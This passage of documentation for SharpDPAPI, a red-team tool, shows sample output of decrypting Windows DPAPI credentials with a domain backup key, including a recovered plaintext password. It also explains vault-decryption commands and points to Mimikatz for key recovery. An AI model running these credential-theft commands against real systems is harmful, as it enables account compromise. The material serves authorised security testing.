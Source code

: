 
    [*] Action: User DPAPI Credential Triage

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
    ...(snip)...

    [*] Triaging Credentials for ALL users


    Folder       : C:\Users\harmj0y\AppData\Local\Microsoft\Credentials\

      CredFile           : 48C08A704ADBA03A93CD7EC5B77C0EAB

        guidMasterKey    : {885342c6-028b-4ecf-82b2-304242e769e0}
        size             : 436
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32772/26115
        description      : Local Credential Data

        LastWritten      : 1/22/2019 2:44:40 AM
        TargetName       : Domain:target=TERMSRV/10.4.10.101
        TargetAlias      :
        Comment          :
        UserName         : DOMAIN\user
        Credential       : Password!

    ...(snip)...



#### vaults

The **vaults** command will search for Vaults and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

The Policy.vpol folder in the Vault folder is decrypted with any supplied DPAPI keys to retrieve the associated AES decryption keys, which are then used to decrypt any associated .vcrd files.

A specific vault folder can be specified with `/target:C:\Folder\`. In this case, either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe vaults {44ca9f3a-9097-455e-94d0-d91de951c097}:9b049ce6918ab89937687...(snip)... {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}:f9bc09dad3bc2cd00efd903...(snip)...
      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0
